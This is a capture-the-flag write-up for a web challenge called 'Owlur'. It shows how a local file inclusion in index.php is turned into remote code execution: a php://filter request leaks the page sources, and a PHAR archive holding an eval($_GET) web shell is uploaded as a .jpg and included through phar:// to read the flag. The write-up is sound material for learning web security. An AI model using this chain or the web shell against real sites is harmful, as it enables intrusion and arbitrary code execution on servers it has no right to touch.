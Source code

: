 ## Owlur - Web 200 problem

We are given an image hosting service where we can upload our own files. We notice that the pages are accessed through a `page` parameter to `index.php`, which may point to a file inclusion vuln.

Using a `php://` URL for the `page` confirms our suspicions:

    http://54.65.205.135/owlur/index.php?page=php://filter/convert.base64-encode/resource=./upload

We can use this to download source for all the pages. Notice that the script is appending `.php` to the path automatically (can confirm this by noting that e.g. [`upload.php`](http://54.65.205.135/owlur/upload.php) exists in the root).

Null bytes aren't working to suppress this appending, and `http` and `ftp` URLs are banned, so we have to try including a local file. We can upload `.jpg`s but those have the wrong extension.

We browse the [list of accepted protocols](http://php.net/manual/en/wrappers.php) and see a weird one called `phar`. The documentation even notes that

>  The phar stream wrapper does not operate on remote files, and cannot operate on remote files, and so is allowed even when the `allow_url_fopen` and `allow_url_include` INI options are disabled. 

Great! So if we construct a PHAR file which contains our shellcode, and rename it to `jpg` then we get remote code execution.

From here it's easy to build the PHAR:

    <?php
    $context = stream_context_create(array('phar' => array('compress' => Phar::GZ)));
    file_put_contents('phar://test.phar/z.php', '<'.'?php
        eval($_GET["code"]);
    ?'.'>', 0, $context);
    ?>

and then run it:

    http://54.65.205.135/owlur/index.php?page=phar:///var/www/owlur/owlur-upload-zzzzzz/bznAQAd.jpg/z&code=echo%20file_get_contents%28%27/OWLUR-FLAG.txt%27%29;

(Note that the `owlur-upload-zzzzzz` path was obtained by reading the `upload.php` source we exfiltrated).
